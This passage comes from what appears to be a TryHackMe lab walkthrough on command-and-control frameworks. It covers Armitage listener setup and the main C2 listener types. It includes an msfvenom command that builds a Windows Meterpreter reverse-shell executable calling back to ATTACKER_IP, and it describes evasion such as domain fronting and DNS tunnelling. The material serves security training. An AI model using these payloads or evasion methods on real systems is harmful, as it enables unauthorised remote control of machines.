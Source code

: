 After clicking "Reverse," a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from, "Shell" or "Meterpreter". Shell refers to a standard netcat-style reverse shell, and Meterpreter is the standard Meterpreter reverse shell.  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Intro%20to%20C2_21.png" width="50%" height="50%">  
After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Intro%20to%20C2_22.png" width="50%" height="50%">  
After setting up a listener, you can generate a standard windows/meterpreter/reverse_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server. 
#### Getting a Callback
```
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
After generating the windows/meterpreter/reverse_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Intro%20to%20C2_23.png" width="100%" height="100%">

### Listener Type
As previously mentioned, standard reverse shell listeners are not the only ones that exist; there are many varieties that use many different protocols; however, there are a few common ones that we will cover, these being the following:
### Standard Listener - 
These often communicate directly over a raw TCP or UDP socket, sending commands in cleartext. Metasploit has full support for generic listeners.
#### HTTP/HTTPS Listeners - 
These often front as some sort of Web Server and use techniques like Domain Fronting or Malleable C2 profiles to mask a C2 server. When specifically communicating over HTTPS, it's less likely for communications to be blocked by an NGFW. Metasploit has full support for HTTP/HTTPS listeners.
#### DNS Listener -
DNS Listeners are a popular technique specifically used in the exfiltration stage where additional infrastructure is normally required to be set up, or at the very least, a Domain Name must be purchased and registered, and a public NS server must be configured. It is possible to set up DNS C2 operations in Metasploit with the help of additional tools. For more information, see this "[Meterpreter over DNS](https://2017.zeronights.org/wp-content/uploads/materials/ZN17_SintsovAndreyanov_MeterpreterReverseDNS.pdf)" presentation by Alexey Sintsov and Maxim Andreyanov. These are often very useful for bypassing Network Proxies.
#### SMB Listener - 
Communicating via SMB named pipes is a popular method of choice, especially when dealing with a restricted network; it often enables more flexible pivoting with multiple devices talking to each other and only one device reaching back out over a more common protocol like HTTP/HTTPS. Metasploit has support for Named Pipes.
